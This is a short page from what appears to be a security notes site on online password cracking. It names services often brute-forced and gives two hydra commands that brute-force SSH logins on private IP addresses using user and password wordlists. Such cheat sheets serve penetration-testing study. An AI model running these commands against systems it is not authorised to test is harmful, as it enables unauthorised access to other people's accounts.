

repository: gandhi-taha/security · page: password_cracking/online_password_cracking/index.html · generator: mkdocs

# Online password cracking


There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP. 

## Port 22 - SSH

```
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V
```
